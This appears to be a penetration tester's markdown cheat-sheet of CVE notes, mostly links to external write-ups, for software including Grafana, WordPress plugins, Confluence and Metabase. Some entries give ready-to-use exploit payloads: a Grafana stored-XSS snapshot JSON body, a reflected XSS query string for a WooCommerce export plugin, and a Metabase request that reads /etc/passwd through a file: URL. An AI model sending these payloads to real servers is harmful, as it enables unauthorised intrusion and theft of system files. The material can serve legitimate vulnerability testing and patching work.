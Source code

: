 ## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

## CVE-2021–24563 Unauthenticated Stored XSS [Frontend Uploader <= 1.3.2]
https://medium.com/pentesternepal/cve-2021-24563-unauthenticated-stored-xss-frontend-uploader-1-3-2-8522e0890833


## CVE-2021-38647 is an unauthenticated RCE vulnerability effecting the OMI agent as root.
https://github.com/horizon3ai/CVE-2021-38647

## Metabase 敏感信息泄露 CVE-2021-41277
```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host:
```








## Full Disclosed reports
https://seclists.org/fulldisclosure/




## CVE Finder
https://git-cve.system00-sec.com/?cve=CVE-2021-1056








